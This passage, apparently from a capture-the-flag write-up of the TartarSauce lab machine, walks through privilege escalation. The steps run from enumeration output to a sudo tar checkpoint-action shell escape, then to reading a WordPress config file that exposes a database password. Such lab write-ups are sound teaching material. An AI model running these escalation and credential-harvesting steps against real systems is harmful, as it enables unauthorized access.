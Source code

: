 
# PrivEsc

Basic enumeration:

```sh
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

hostname
# TartarSauce

ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:c2:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.88/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever

sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Looks like we can run `tar` as the `onuma` user. That's at least a pivot to a normal user, since `tar` is a well known binary for executing a shell ([GTFO-bins](https://gtfobins.github.io/gtfobins/tar/)).

```sh
# pivot to onuma user
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

id
# uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

More basic enumeration:

```sh
netstat -tlpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -

mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO)

cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04

cat /var/www/html/webservices/wp/wp-config.php
/** MySQL database username */
define('DB_USER', 'wpuser');
/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

mysql -u wpuser -p
```